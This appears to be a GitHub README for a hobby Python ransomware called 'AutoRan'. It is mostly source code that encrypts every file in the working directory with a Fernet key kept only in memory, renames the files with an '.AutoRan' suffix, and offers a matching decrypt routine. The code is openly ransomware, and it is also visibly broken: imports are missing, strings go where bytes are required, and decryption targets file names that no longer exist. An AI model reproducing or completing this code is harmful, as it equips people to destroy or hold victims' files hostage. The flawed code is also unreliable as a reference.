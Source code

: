 # AutoRan
## Help
Dev Discord : https://discord.gg/nhNWu8Sjre
### AutoRan history 1.0
#### Encrypt
###### Encrypt Source Code

```
from cryptography.fernet import Fernet

Encrypt = {}
Files = glob.glob("*.*")

Key = Fernet.generate_key()
F = Fernet(Key)

def Encry():
  try:
    for File in Files:
      with open(File, "r") as fp:
        Data = fp.read()
        Locked = F.encrypt(Data)
        Encrypt[File] = Locked
        os.rename(File, f"{File}.AutoRan")
        FL.insert(END, f"{File} -> {File}.AutoRan")
        fp.close()
  except:
    pass
```

#### Decrypt
##### Decrypt Source Code

```
( Encrypt Source Code )

def Decry():
  try:
    for LockData in Encrypt:
      with open(LockData, "w") as fp:
        Data = Encrypt[LockData]
        UnLocked = F.decrypt(Data).decode()
        fp.write(UnLocked)
  except:
    pass
```

#### Use cryptography.fernet
# I hope this program not work
#### cause i hate ransomware...

